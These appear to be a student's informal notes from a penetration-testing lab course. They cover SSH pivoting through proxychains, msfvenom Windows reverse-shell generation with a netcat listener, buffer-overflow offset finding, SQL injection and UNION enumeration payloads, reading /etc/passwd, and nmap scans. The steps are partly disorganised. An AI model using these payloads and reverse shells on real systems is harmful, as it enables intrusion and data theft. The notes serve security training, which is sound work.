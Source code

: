 ## General Steps 1 to a Target ##

### STEP 1 ###

1. Gain initial access. 

        Use information gained from scanning, ping and what not to gain initial access to the system.

2. Find any other additional targets
        
        Post exploitation attacks , e.g. Situational Awareness, enumeration and escalation privilege. 

3. Pivot or go to the targets found in 2. 

## General Steps to a Target ##

Step 1. Create local tunnels to target point 

Step 2. Check ip addresses to the target points whether they are active or responsive 

Step 3. `cat /etc/hosts` or cat `/etc/passwd`see what's in there

Not sure about these here 

Move dynamic to An : ssh An@localhost –p 50511 –D 9050 -NT

Linoops proxychain `nmap –Pn 192.168.28.179`

RDP from An to Lh

Student@lin-ops ssh An@localhost –p 50522 –L 50533:192.168.28.179:3389 –NT

`Msf6 payload(windows/shell_reverse_tcp)>generate –b “\x00\x0a\x0d\x20” -f python`

Open Immunity Debugger to see if its broken

https:wireshark.eu/tools/buffer-overflow-pattern-generator/?

Pattern length of 5000 and copy the nre pattern with the code

Rund the code again and we should find a new EIP

NEW EIP will be the offset in wiremask

Student@lin-ops$ `msfvenom –p windows/shell_reverse_tcp lhost=10.50.40.109 lport=4444 –b “\x00” -f python`

Nc –lvp 4444

Proxychains ./whateverfile.py

Step 4. Perform nmap scans on targets to find attackers from linops

Step 5. Perfrom enumeration on the found target IP on port 80

Step 6. Change proxy settings on browser ![Alt Text](images/proxy_settings.png)

Step 7. Perform SQL injections http://ip.address/login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1
        Or enter the information on the login page 

Step 8. Enumerate the scripts on the website you logged in to to find any other information for login. http://ip.address/scripts or anything on here/. Find users e.g. user_mahlon and passwords 

Step 9. Perform directory traversals things like /etc/passwd pages and /etc/hosts 

Step 10. Use any information to login to the sites, ssh'ing to the respective sites e.g. user_mahlon@i-_address use the password found

Step 12: ls, cd to /etc/hosts /etc/passwd and other folders while looking for other targets say you find an ip address 192.6.6.6 called shenanigans.. get the hostname say the hostname is shenanigans_hostname 

Step 13. Login to the target and go to bash, e.g. type bash on terminal then scan for the ip e.g. `user_mahlon@shenanigans_hostname:/$ for i in {1..254};do (ping -c 1 192.6.$i | grep "bytes from" &); done` this will show what addresses are open. 181

Step 14. From the linops machine ssh dynamically to found hosts use user_mahlon

Step 15. From here you can run proxychains and nmap to find targets e.g. `student@lin-ops:~$ proxychains sudo nmap -sS -Pn 192.6.6.NumFOndin14 -p 1-2,3,4,5`

Step 16. Check for enum scripts and netbios using `nmap –Pn – 192.192.6.6.NumFOndin14 -sV`  or `nmap –Pn – 192.6.6.NumFOndinin14 --script -enum`

Step 17. Go to the http page and try and perfrom sql injection union selection reference table notes.

NOTES: 

    Site has a login page / url has an equal sign in it ⇒ SQL Injection
        20.178
        Basic SQL Commands: Web Exploitation - Day 2 :: Cyber Common Technical Core - Security & Exploitation Module -> https://sec.cybbh.io/public/security/latest/lessons/lesson-5-sql_sg.html#_demo_sql_commands_sql_demo_box?isPin=false

        Finding Unsanitized Fields: 
            1. Use NMAP script: proxychains nmap -Pn -T5 -sT -p 80 --script http-sql-injection.nse <IP>
            2. Use single quote: ' ⇒ Results in non-standard error/extraneous information
        
        Login Page:
            Post Method: Try in both username and password: tom' or 1='1
            
            Doesn't work ⇒ switch to GET Method
                - Open inspector
                - Find POST statement for username and password
                - Double-Click and change to GET
                - In the username/password fields on the page, put: tom' or 1='1
                - Alternate method: pass in truth statements to the URL on the php page: <URL>/login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1
        
        Site Interaction (e.g., Page pulls data from database and returns to screen)
            
            Identify POST / GET with page source or inspector
            Find the vulnerable POST method
                - Use the option legitimately to see what happens
                - Try a truth state with legitimate data (e.g., Ford' OR 1='1)
                - Doesn't work? Iterate with other options (e.g., Audi' OR 1='1)
            
            Find the vulnerable GET method
                - When you submit the GET request, the URL has a ?[var]=
                    -> e.g., <URL>/uniondemo.php?Selection=2&Submit=Submit
                - Look at how the variable works (integers or strings) then edit your truth statement accordingly
                    -> If integer search method: no quotes (e.g., <URL>/uniondemo.php?Selection=2 OR 1=1)
                    -> If string search method: quotes (e.g., <URL>/uniondemo.php?Selection=RAM' OR 1='1
                - If it doesn't work, iterate on the selection
            
            - Validate the column layout
                -> Validate the NUMBER of columns required (GET): <URL>/uniondemo.php?Selection=2 Union SELECT 1,2,3
                -> Validate the NUMBER of columns required (POST): Audi' Union SELECT 1,2,3,4
                -> OR Validate the NUMBER of columns required (POST): Audi' Union SELECT 1,2,3,4;#
                -> Look at what values appear (if some columns don't show up)
                -> Look to see if the columns are out of order
                -> Keep incrementing until it fails to see how many columns
            
            Enumerate the Database
                - Golden Statement (POST): Audi' UNION SELECT table_schema,table_name,column_name FROM information_schema.columns;
                    -> add items to search to have enough columns
                    -> May need to add # to the end of the golden statement
                - Golden Statement (GET): <URL>/uniondemo.php?Selection=2 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
                - DONT CLOSE TAB
            
            Pull Out Useful Information
                - POST: Audi' UNION SELECT name,size FROM session.Tires
                - GET: <URL>/uniondemo.php?Selection=2 UNION SELECT null,name,color FROM car

Step 18. Add kizao prd = numberi saba union select table_schema, column_name, table_name FROM information_schema.columns. pick.php?product=6 or 1=1

Step 19. Step 13

Step 20. Perform escalation of privilege -> TODO: Review notes for post escalation privilege

## How to check IP addresses in a local network and whether they are active and responsive ##

So, in summary, the below script pings each IP address in the range 192.168.28.1 to 192.168.28.254 once and then searches for lines in the ping output that contain "bytes from." It does this for all IP addresses concurrently by running the grep command in the background for each ping. This is often used to quickly check which IP addresses in a local network are active and responsive.

student@lin-ops:~$ `for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done`

## How to perform NMAP scan on the target from linops ##

student@lin-ops:~$ `sudo nmap -sS -Pn 10.50.27.209 -p 135-139,22,80,443,21,8080`

-sS: This option specifies to use TCP SYN scanning. In TCP SYN scanning, the tool sends SYN packets to the target ports to determine if they are open or closed. It's a common method for quickly identifying open ports.

-Pn: This option tells nmap not to perform host discovery. By default, nmap tries to determine if the host is up before scanning, but -Pn disables this and assumes the host is up.

When you run this command, nmap will send SYN packets to each of the specified ports on the target IP address 10.50.27.209 and determine whether they are open, closed, or filtered by a firewall. 

## How to perform enumeration on a target ##

student@lin-ops:~$ `nmap -Pn -sT 10.50.27.209 -p 80 --script http-enum.nse`

The purpose of this nmap command is to scan the target host 10.50.27.209 specifically for an HTTP service running on port 80 and to enumerate information about that service using the http-enum.nse script.

-Pn: This option tells nmap not to perform host discovery. It assumes that the host is up without checking. 

-sT: This option specifies to use TCP connect scanning (-sT). TCP connect scanning is a basic technique where nmap attempts to establish a full TCP connection with the target host on the specified port(s). It's a straightforward method for checking whether a port is open.
